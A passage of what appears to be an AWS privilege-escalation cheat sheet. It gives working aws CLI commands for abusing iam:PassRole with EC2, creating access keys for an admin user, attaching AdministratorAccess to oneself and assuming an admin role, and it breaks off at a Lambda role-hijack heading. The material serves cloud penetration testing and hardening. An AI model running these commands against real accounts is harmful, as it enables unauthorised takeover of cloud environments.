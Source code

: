 Look for:

```json
{
  "Effect": "Allow",
  "Action": "*",
  "Resource": "*"
}
```

→ Full admin privileges.

***

#### 💣 3. Exploiting `iam:PassRole` + EC2

**Vulnerability:** User can create EC2 instance with a higher-privileged role.

```bash
aws iam list-roles | grep Admin
aws ec2 run-instances --image-id ami-1234 --iam-instance-profile Name=AdminRole
```

Result → shell access to instance with elevated privileges.

***

#### 🧩 4. Exploiting `iam:CreateAccessKey`

```bash
aws iam create-access-key --user-name admin-user
```

Generates permanent access credentials for escalation.

***

#### ⚙️ 5. Abusing `iam:AttachUserPolicy`

Attach `AdministratorAccess` to self:

```bash
aws iam attach-user-policy --user-name <your_user> --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

***

#### 💣 6. `sts:AssumeRole` Misconfigurations

```bash
aws sts assume-role --role-arn arn:aws:iam::111111111111:role/AdminRole --role-session-name elevate
```

If the role trusts your account or the wildcard `Principal: *`, you escalate instantly.

***

#### 🧠 7. Lambda Function Role Hijack
